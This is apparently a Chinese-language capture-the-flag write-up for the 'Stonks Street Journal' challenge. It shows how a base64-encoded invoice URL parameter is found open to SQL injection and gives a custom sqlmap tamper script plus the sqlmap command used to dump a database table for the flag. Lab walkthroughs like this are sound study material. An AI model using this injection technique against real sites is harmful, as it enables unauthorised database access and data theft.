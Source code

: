 ```yaml
---
title: Stonks Street Journal
categories:
- wp
feature_text: |
  Stonks Street Journal


---
```




2021.12.02 

Stonks Street Journal



<!-- more -->

### 2021.12.2 

### Stonks Street Journal

在网站成功注册后可以查看 `invoice`

查看时发现URL末尾有一串看起来像base64编码的字符串

``http://ssj.rumble.host/legacy_invoice_system/Umljay0yMDIxLTExLTI5`

解码后得到`USERNAME-YEAR-MONTH-DAY`

在username后加上`'`，发生SQL报错

```
syntax error at or near "2021"
LINE 1: ...riber WHERE username='jumaoo1'' AND signup_date='2021-11-27...
                                                             ^
```

输入的字符串似乎被拆分成了username和signup date然后被传递到SQL查询中，没有过滤

使用一个自定义SQLMap篡改脚本，利用脚本把payload附加到signup date后面，然后对字符串base64编码，在传递到自定义注入点`GET /legacy_invoice_system/*`

脚本：

```
import base64
from lib.core.enums import PRIORITY

# Define which is the order of application of tamper scripts against the payload
__priority__ = PRIORITY.NORMAL   //记住就行（？）

def tamper(payload, **kwargs):    //kwargs就是字典中的key+value
    retVal = base64.b64encode(('jumaoo1-2021-11-27' + payload).encode()).decode()
    
    return retVal
```

塞进SQLmap里执行：

`sqlmap -r invoice.req --tamper tamper.py --threads 10 -T news_article --dump`

- -r：抓包
- --tamper：脚本
- --threads：多线程
- -T：表名

得到flag